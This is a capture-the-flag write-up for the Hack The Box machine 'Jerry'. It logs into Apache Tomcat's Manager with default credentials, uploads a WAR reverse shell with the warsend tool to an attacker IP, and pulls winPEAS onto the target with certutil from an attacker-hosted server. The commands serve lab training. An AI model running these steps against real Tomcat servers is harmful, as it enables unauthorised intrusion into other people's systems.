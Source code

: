 ## Box: Jerry

## Target IP: `10.10.10.95`

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -p- --min-rate 10000 10.10.10.95
```

Result:

| Port | Service | Version |
| --- | --- | --- |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |

HTTP title: Apache Tomcat/7.0.88.

Default Tomcat page on port 8080.

---

### Web Enumeration and Initial Access

Clicked on Manager App link.

Login prompt.

Searched default credentials.

Tried `admin:s3cret`. Success.

Manager interface allows `.war` file uploads.

Searched for `.war` reverse shells. Found:

```bash
https://github.com/thewhiteh4t/warsend
```

Cloned:

```bash
git clone https://github.com/thewhiteh4t/warsend.git
```

Built and launched:

```bash
./warsend.sh 10.10.14.15 4444 10.10.10.95 8080 tomcat s3cret revshell
```

Shell access achieved.

---

### Post-Exploitation

Got a prompt:

```bash
C:\apache-tomcat-7.0.88>
```

Planned privilege escalation with `winPEAS`.

On attacker machine:

```bash
cp /opt/winpeas/winPEASany.exe .
python3 -m http.server 80
```

On victim:

```bash
certutil -urlcache -split -f http://10.10.14.15/winPEASany.exe winpeas.exe
winpeas.exe
```

Before even needing winPEAS, noticed:

Already running as `NT AUTHORITY\SYSTEM`.

Whoops. Surprised I didn't check that first!

---

### Flags

Located:

```bash
C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
```

Contents:

- `user.txt`: `[REDACTED]`
- `root.txt`: `[REDACTED]`

Both flags in one file.
